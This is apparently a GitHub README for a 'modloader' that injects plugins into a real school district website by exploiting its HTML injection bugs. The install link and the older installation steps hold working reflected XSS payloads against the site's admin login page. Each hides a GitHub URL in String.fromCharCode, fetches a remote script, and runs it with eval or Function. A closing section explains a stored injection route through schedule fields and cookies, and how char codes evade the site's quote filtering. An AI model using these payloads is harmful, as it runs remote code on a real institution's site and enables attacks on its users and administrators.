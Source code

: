 ${{\color{#a80f1f}\Huge{\textsf{R}}}}{{\color{#a80d24}\Huge{\textsf{H}}}}{{\color{#a80c2a}\Huge{\textsf{S}}}}{{\color{#a80b2e}\Huge{\textsf{-}}}}{{\color{#a70c33}\Huge{\textsf{M}}}}{{\color{#a70d38}\Huge{\textsf{o}}}}{{\color{#a60f3c}\Huge{\textsf{d}}}}{{\color{#a51241}\Huge{\textsf{l}}}}{{\color{#a31445}\Huge{\textsf{o}}}}{{\color{#a21749}\Huge{\textsf{a}}}}{{\color{#a01a4d}\Huge{\textsf{d}}}}{{\color{#9e1d51}\Huge{\textsf{e}}}}{{\color{#9c2055}\Huge{\textsf{r}}}}$
<br><br>An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

> [!WARNING]  
> ***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

## Installing
<a href="https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>(Function(d))())</script>">
  <img src="images/rps-RHS-watch.png" width="100" height="100" alt="Click To Install">
</a><br><br>Click the circle.

## Features
- Completely custom theme/plugin support using js/css with headers for name, author, description, and version
- Saving state of enabled plugins/themes and loading them on site launch
- CTRL + Y keybind to wipe everything in the case of something going wrong or a mod goes haywire
- Floating Monaco text editor window (vscode) built in to the site to develop and edit mods in-site
- As this is unfinished, this is not the full list of features. more will be added soon.

## Currently working on:
- Timer improvements & Bunch of smaller mods [DONE, Will be pushed to store, check ``/mods``]
- Store to one-click download mods, the Mod Library [Being designed]

## Planned (by priority)
- Groups of mods in folders where the entire folder can be toggled on/off
- Store should have some sort of account based verification but accounts get blocked because the domain administrator has to allow sign-ins. I'm not exactly sure how to get around this.
   - The account based system for store will be postponed until later, the plan to do so is using external email verification via an external account, probably automated with something like firebase.
- Electron app

# [MOD MAKING GUIDE](https://github.com/PoyOzk/RHS-Modloader/wiki)

## OLD INSTALLATION METHOD

~~As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.~~
USE THE REGULAR INSTALLATION METHOD IT'S BETTER IN EVERY WAY

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

## How this works

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
